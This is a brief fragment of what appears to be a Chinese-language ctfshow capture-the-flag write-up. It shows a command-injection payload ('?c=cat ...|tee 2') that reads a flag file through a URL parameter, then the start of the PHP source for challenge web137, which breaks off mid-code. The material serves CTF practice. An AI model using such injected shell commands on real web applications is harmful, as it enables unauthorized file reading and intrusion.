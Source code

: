 ![image-20250124152140227](assets/image-20250124152140227.png)

看到flag的位置

```
?c=cat /f149_15_h3r3|tee 2
```

![image-20250124152240505](assets/image-20250124152240505.png)

#### web137

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:27:49

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
```